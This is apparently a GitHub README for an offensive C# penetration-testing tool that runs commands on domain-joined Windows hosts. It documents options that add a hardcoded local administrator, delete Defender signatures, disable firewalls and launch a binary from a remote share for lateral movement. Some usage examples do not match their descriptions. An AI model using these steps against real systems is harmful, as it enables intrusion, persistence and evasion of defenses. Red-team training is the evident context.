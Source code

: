 # ExeCutioner


![image](https://user-images.githubusercontent.com/57995347/164892286-a8659b4f-d34b-408a-a7cb-2bee9295f400.png)

Domain-joined Code Executioner

This is a C-Sharp tool written to execute commands on Domain-joined Windows hosts by either taking user supplied creds (username/password) or leveraging the logged-on user's access token.

It was heavily inspired by the OSEP course and leverages code and ideas from https://github.com/chvancooten/OSEP-Code-Snippets
                      
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>
```

Options:
```
/addadmin - adds a local administrator called newguy with password MakeLife123 to target
/cmd - allows for the execution of commands on the target
/domain - allows for the specification of target domain
/noav - deletes Windows Defender's signatures
/nofw - disables all target firewall profiles
/pass - specifies password to use
/t - specifies the target
/syscreds - ignores the user specified and uses the token of the currently logged in user
/user - specifies the target user account
```

Usage:
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>

Usage: Examples:
ExeCutioner.exe /?  - show's this help menu 

//Authenticate to target with username and password and disable firewall profiles
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /domain <domain> /nofw true

//Authenticate to target with current system token and turn off av
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /syscreds true /nofw true

//Authenticate to target with current system token and execute command
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /cmd <command-to-run-in-qoutes>

//Authenticate to target with current system token and execute binary for lateral movement
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /cmd <\\192.168.10.8\\lateralmovement.exe>
```

# Credits
- Heavily inspired by "[chvancooten](https://github.com/chvancooten/OSEP-Code-Snippets)" 
- Invaluable knowledge from the "[OSEP Course](https://www.offensive-security.com/pen300-osep/)"
- Great resource from "[Microsoft](https://docs.microsoft.com/en-us/dotnet/api/system.security.principal.windowsidentity.impersonate?view=netframework-4.8)"


